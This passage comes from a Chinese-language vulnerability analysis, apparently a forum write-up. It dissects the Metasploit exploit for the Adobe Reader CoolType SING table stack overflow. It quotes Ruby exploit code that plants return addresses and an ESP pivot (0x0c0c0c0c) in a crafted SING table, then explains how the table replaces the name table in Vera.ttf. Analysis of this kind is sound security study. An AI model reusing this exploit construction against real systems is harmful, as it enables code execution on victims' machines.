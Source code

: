 ```
        sing[0x208, 4] = [ret].pack('V')
 
        # This becomes the new eip after the first return
        ret = 0x4a82a714
        sing[0x18, 4] = [ret].pack('V')
 
        # This becomes the new esp after the first return
        esp = 0x0c0c0c0c
        sing[0x1c, 4] = [esp].pack('V')
 
        # Without the following, sub_801ba57 returns 0.
        sing[0x24c, 4] = [0x6c].pack('V')
 
        ttf_data[0xec, 4] = "SING"
        ttf_data[0x11c, sing.length] = sing
 
        ttf_data
    end

```

msf 使用的基础 TTF 文件是`Vera.ttf (785d2fd45984c6548763ae6702d83e20)`，然后对这个文件内容进行修改。

 

然后开始构造 SING 表，前十六个字节如下，可以看到`tableVersionMajor`设成了`0`：

```
sing << [
    0, 1,   # tableVersionMajor, tableVersionMinor (0.1)
    0xe01,  # glyphletVersion
    0x100,  # embeddingInfo
    0,      # mainGID
    0,      # unitsPerEm
    0,      # vertAdvance
    0x3a00  # vertOrigin
].pack('vvvvvvvv')

```

`uniqueName`字段先是被初始化成了随机字符`sing << rand_text(0x254 - sing.length)`，然后再设置几个特殊位置用于作为跳转地址，这部分内容先不考虑，等之后开始调试再分析。

 

最后设置了 ttf 文件的`0xec`和`0x11c`的位置，我们可以看一下原始的`Vera.ttf`文件，这两个位置上是什么内容：

 

![](https://bbs.pediy.com/upload/attach/202107/600394_UY2PKKE5CVDQ56H.png)

 

从上图可以看出来，代码其实是将原本的`name`表的`tag`修改成了`sing`，同时用`sing`表的内容替换了位于`0x11C`的原本`name`表的内容。这也与静态分析的结论相符合——TTF 文件中不存在 name 表。

3.2 调试分析
--------
